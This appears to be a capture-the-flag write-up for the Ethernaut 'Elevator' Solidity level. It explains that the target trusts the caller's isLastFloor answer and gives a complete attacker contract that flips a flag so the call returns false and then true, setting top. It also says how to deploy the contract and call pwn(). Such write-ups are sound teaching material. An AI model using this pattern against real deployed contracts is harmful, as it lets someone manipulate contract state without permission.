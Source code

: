 ### Goals

Reach the top of the building - set top to true

### Exploit

The contract has one function that allows user to go to certain floor as provided in param. It assumes the sender has implemented `isLastFloor` function which is being called on him and checked if the floor is last one.

We need to write evil smart contract that will return return different boolean value for `isLastFloor` call based on some conditions, so we can set the `Elevator::top()` to true. We will use a flag for this purpose.

### Code

Let's deploy following contract with Remix

```code
contract Top {
    address target;

    bool public flag = false;

    constructor(address _target) {
        target = _target;
    }

    function isLastFloor(uint) external returns(bool) {
      if(!flag) {
        flag = true;
        return false;
      }
      return true;
    }

    function pwn() external {
        target.call(abi.encodeWithSignature("goTo(uint256)", 1));
    }
}
```

Now just call `pwn()` and ...
Done!
